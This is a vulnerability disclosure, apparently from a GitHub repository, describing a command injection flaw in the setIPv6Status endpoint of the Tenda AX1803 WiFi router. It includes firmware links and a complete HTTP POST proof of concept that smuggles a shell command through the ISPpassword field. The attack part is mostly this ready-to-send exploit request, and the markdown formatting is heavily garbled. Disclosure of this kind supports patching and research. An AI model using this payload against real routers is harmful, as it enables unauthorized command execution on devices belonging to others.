

#***\* Tenda ax1803 has a command injection vulnerability\****

##* * * \ * overview\****

• ****\* type \ ****: command injection vulnerability

• * * * \ * supplier \ * * * *: Tengda（ https://tenda.com.cn ）

• ****\* product ****: WiFi router ax1803

• ***\*Firmware download address：\**** https://www.tenda.com.cn/download/detail-3225.html

• ***\*Firmware download address：\****https://down.tenda.com.cn/uploadfile/AX1803/US_AX1803v2.1br_v1.0.0.1_2890_CN_ZGYD01.zip

Tendaax1803 router adopts WiFi 6 (802.11ax) technology, and the dual band concurrency rate is up to 1775mbps (2.4ghz:574mbps, 5ghz:1201mbps). Compared with the ac1200 router of the previous generation WiFi 5 standard, the wireless rate is increased by 50% and the transmission distance is longer; Equipped with 1.5GHz high-performance quad core processor, the network load capacity is comprehensively improved, data forwarding is faster, and long-term operation is more stable; Using ofdma+mu-mimo technology, more devices can access the Internet at the same time, the transmission efficiency is significantly improved, the delay is significantly reduced, and the online games and ultra clear videos for multiple people are more fluent. It is the first choice for building a multimedia home network! Command Execution Vulnerability in setipv6status


##* * * \ * description\****


###***\* I. product information:\****


Overview of the latest version of Tenda ax1803 router simulation:


 

 

 

\### ***\*2. Vulnerability details\****


Tenda ax1803 is found to have a command injection vulnerability in the setipv6status function




When we set connect type = ' PPPoE ', we will get a command injection vulnerability after logging in.

 

 

 


\## ***\*3. Recurring vulnerabilities and POCS\****

To reproduce the vulnerability, the following steps can be followed:

Start firmware through QEMU system or other methods (real machine)

Attack with the following POC attacks

Note to replace the password field in the cookie

```
POST /goform/setIPv6Status HTTP/1.1
Host: 192.168.2.1
Connection: close
Content-Length: 191
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: https://192.168.2.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=edeff4d6d98974e46457a587e2e724a2ndy5gk

IPv6En=1&conType=PPPoE&ISPusername=addasdas&ISPpassword=$(ls > /tmp/xxx)&prefixDelegate=0&wanAddr=%2F&gateWay=&lanType=undefined&wanPreDNS=&wanAltDNS=&lanPrefix=undefined%2F64
```

 
